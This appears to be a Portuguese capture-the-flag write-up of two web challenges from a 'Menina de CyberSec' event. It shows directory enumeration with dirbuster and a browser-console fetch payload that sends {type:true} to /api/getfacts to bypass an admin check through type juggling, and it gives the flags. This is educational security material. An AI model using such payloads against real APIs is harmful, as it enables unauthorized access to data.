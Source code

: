 # Capture The Flag - Menina de CyberSec

# CTF

CTF (Capture The Flag) realizado entre os dias 12 e 15 de Novembro, no servidor Menina de CyberSec.

# WEB

![](/meninaCyberSec/pics/web2.png)

## Desafio: Não odeio o JavaScript! :triangular_flag_on_post:

<code>formato da flag **MCS{xxxx_xxxx_xxxx_xxx}**</code>

```
Esse desafio tinha um arquivo .txt e ao abri-lo, tinha endereço do site para analisarmos.
```

### Análise

1. Analisei o o page source
2. Na pagina tinha dois buttons, cliquei em ambos, com o console e network abertos.

O segundo button me chamou atenção. Ao clicar aparecia a seguinte mensagem na página

```bash
Secrets can only be accessed by admin
```

A palavra **admin** poderia me levar para algum diretório. Ou poderia existir uma URL de login</br>
Tentei acessa a URL com o <strong>/admin</strong> e retornou:

```bash
403 Forbidden
```

Status code 403 de não permitido. Diretório existe, mas eu não tenho permissão. </br>

Utilizando a ferramenta <strong>dirbuster</strong>, me retornou algums diretórios <strong>200</strong>, ou seja diretórios que não precisam de autorização para acessar.</br>

```bash
200 /admin/admin.js
200 static/js/index.js
```

Acessei url/admin/admin.js e nesse arquivo estava a flag

> "MCS{3num3r4t10n_F0rfun_4nd_Pr0f1t}"

## Desafio: Nosferatu :triangular_flag_on_post:

<code>Formato da flag: MCS{xxxx_xxxx_xxxx_xxxx_xxxx}</code>

Esse era a continuação.</br>

Como tinha me retornado a url <strong>static/js/index.js</strong>, eu acessei e me retornou o diretório, com a regra de negócio da aplicação. </br>

## Análise

Analisei o código index.js e vi que na regra de negócio tinha uma requisição POST **/api/getfacts** </br
>
Na página do button 2, não aparece o array com as informações. Caindo diretamente no **else**

```js
 facts_html = '<div></div><div class="error">Secrets can only be accessed by admin</div>';
```

Ou seja, o body tá indo vazio/false.

```js
const loadfacts = async (fact_type) => {
    await fetch('/api/getfacts', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ 'type': fact_type })
    })
        .then((response) => response.json())
        .then((res) => {
            if (!res.hasOwnProperty('facts')){
                populate([]);
                return;
            }

            populate(res.facts);
        });
}
```

O que eu preciso fazer é passar como true e rodar o scritp no console do navegador.

```js
fetch('/api/getfacts', {
  'method': 'POST',
  'headers': {
    'Content-Type': 'application/json'
  },
  'body': "{\"type\":true}"
}).then((response)=>response.json()).
    then((response)=>console.log(response));
```

![](/meninaCyberSec/pics/flga2.png)

E a flag foi retornada:

> MCS{0wn3d_fl4g_f0r_typ3_Juggl1ng}
